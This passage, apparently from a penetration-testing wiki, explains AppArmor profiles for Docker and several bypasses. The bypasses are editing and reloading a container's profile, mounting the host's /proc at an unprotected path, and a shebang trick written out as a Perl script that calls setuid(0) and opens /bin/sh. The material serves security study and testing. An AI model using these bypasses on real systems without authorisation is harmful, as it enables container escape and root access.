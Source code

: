 ```
$ sudo apparmor_status  | grep mydocker
   mydocker
```

As shown below, we get error when trying to change “/etc/” since AppArmor profile is preventing write access to “/etc”.

```
$ docker run --rm -it --security-opt apparmor:mydocker -v ~/haproxy:/localhost busybox chmod 400 /etc/hostname
chmod: /etc/hostname: Permission denied
```

## AppArmor Docker Bypass1

You can find which **apparmor profile is running a container** using:

```bash
docker inspect 9d622d73a614 | grep lowpriv
        "AppArmorProfile": "lowpriv",
                "apparmor=lowpriv"
```

Then, you can run the following line to **find the exact profile being used**:

```bash
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```

In the weird case you can **modify the apparmor docker profile and reload it.** You could remove the restrictions and "bypass" them.

## AppArmor Docker Bypass2

**AppArmor is path based**, this means that even if it might be **protecting** files inside a directory like **`/proc`** if you can **configure how the container is going to be run**, you could **mount** the proc directory of the host inside **`/host/proc`** and it **won't be protected by AppArmor anymore**.

## AppArmor Shebang Bypass

In [**this bug**](https://bugs.launchpad.net/apparmor/+bug/1911431) you can see an example of how **even if you are preventing perl to be run with certain resources**, if you just create a a shell script **specifying** in the first line **`#!/usr/bin/perl`** and you **execute the file directly**, you will be able to execute whatever you want. E.g.:

```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

